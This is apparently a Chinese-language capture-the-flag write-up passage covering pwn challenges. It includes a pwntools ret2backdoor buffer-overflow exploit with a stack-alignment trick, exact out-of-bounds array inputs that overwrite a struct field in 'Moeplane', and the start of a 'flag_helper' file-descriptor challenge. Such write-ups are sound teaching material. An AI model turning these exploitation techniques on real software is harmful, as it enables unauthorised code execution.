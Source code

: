 其实是 `movaps` 指令要求目标地址（此处为 `rsp + 0x50`）16 字节对齐（能被 16 整除）导致的。通过将劫持的地址 +1，跳过 `backdoor` 中的 `push rbp`（该指令机器码长度 1 字节）从而使 `rsp` 16 字节对齐。

Exp:

```Python
from pwn import *

io = ...

# backdoor = 0x401176
backdoor = 0x401177 # 地址 +1 跳过 `push rbp` 使栈指针在调用 `system` 时 16 字节对齐。

payload = cyclic(88) + p64(backdoor)
io.sendlineafter(b".\n", payload)

io.interactive()
```

## Moeplane

```c
struct airplane {
    long flight;  // 目标：50 40 30 20 10 00 00 00 (hex)
    int altitude; // 4 字节
    int velocity; // 4 字节
    int angle;    // 4 字节
    unsigned char engine_thrust[ENGINES]; // 距离 `flight` 12 字节
} moeplane;
```

附件只给出了 Moeplane 相关数据的结构体，可以看到 `engine_thrust` 是一个数组。由于题目能操作的地方实在有限，唯一可疑的是 `which engine`。输入一个大于 4 的数，程序输出 `engine not found`；但是当输入一个负数或者超过 INT_MAX（2147483647）的大数时，程序并不会输出 `engine not found`，而是直接终止或表现异常，说明我们修改到非预期范围的数据。我们只讨论负数 index：由于 C 语言中数组下标访问只是简单的 数组基址 + 偏移量，且不会检查边界，考虑小端存储，`engine_thrust[-13]` 即为 `flight` 最高位。然而直接修改最高位将 `flight` 变为超大数字会触发题目程序的“防作弊”检查，由目标里程为 0x1020304050，可计算出 `engine_thrust[-16]` 对应 `flight` 中目标里程数据的最高位，应从此开始修改。由于 `engine_thrust` 为 uchar 数组，需要逐字节修改 `flight`。注意实际 index 为 输入值 - 1。

**综上，依次输入 1 -15 16 1 -16 32 1 -17 48 稍作等待即可。**

整数上溢为有符号整数负数的 index 也可达到相同效果：依次输入：1 4294967281 16 1 4294967280 32 1 4294967279 48 稍作等待即可。 

C 语言不同平台的 `int` 和 `long` 大小不同，正因此附件图片中给出了结构体的 size 和 alignment，应该不会有歧义。

## flag_helper

首先抱歉，这道题由于出题人经验不足，做起来可能莫名其妙，还请谅解。

简化的程序关键流程：

```c
// ... 输入 `file`、`flags`
open("/dev/random", 0);
open("/dev/urandom", 0);
open(file, flags);
open("/dev/zero", 0);
// ... 输入 `prot`、`flags`
char *buf = mmap(NULL, 0x50, prot, flags, -1, 0);
// ... 输入 `fd`
read(fd, buf, 0x50);
write(stdout, buf, 0x50);
```
